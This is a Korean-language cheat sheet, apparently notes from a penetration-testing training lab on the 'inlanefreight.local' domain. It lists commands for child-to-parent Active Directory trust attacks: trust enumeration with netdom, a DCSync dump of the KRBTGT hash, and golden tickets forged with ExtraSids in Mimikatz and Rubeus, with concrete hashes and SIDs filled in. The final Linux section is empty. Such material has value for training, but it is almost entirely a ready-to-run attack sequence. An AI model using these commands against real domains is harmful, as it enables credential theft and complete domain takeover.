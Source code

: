 ```

### netdom을 사용하여 domain trust 쿼리
```netdom query /domain:inlanefreight.local trust```

### netdom을 사용하여 도메인 컨트롤러 쿼리
```netdom query /domain:inlanefreight.local dc```

### netdom을 사용하여 워크스테이션 및 서버 쿼리
```netdom query /domain:inlanefreight.local workstation```

<br/><br/>
## 2. Attacking Domain Trusts - 자식 -> 부모 - from Windows

### ExtraSids Attack - Mimikatz

#### Mimikatz를 사용하여 KRBTGT 계정의 NT 해시 얻기
```mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt```

#### Get-DomainSID 사용
```
Import-Module .\PowerView.ps1
Get-DomainSID
```

#### Get-DomainGroup을 사용하여 Enterprise Admins 그룹의 SID 얻기
```Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid```

#### ls를 사용하여 액세스 불가 확인
```ls \\academy-ea-dc01.inlanefreight.local\c$```

#### Mimikatz로 골든 티켓 만들기
```
mimikatz.exe
mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```

#### klist를 사용하여 Kerberos 티켓이 메모리에 있는지 확인
```klist```

#### 도메인 컨트롤러의 전체 C: 드라이브 나열
```ls \\academy-ea-dc01.inlanefreight.local\c$```

### ExtraSids Attack - Rubeus

#### Rubeus를 실행하기 전에 ls를 사용하여 액세스 불가 확인
```ls \\academy-ea-dc01.inlanefreight.local\c$```

#### Rubeus를 사용하여 골든 티켓 만들기
```.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt```

#### klist를 사용하여 티켓이 메모리에 있는지 확인
```klist```

#### DCSync 공격 수행
```
.\mimikatz.exe
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```
특정 도메인 대상 : ```mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL```

<br/><br/>
## 3. Attacking Domain Trusts - 자식 -> 부모 - from Linux

```
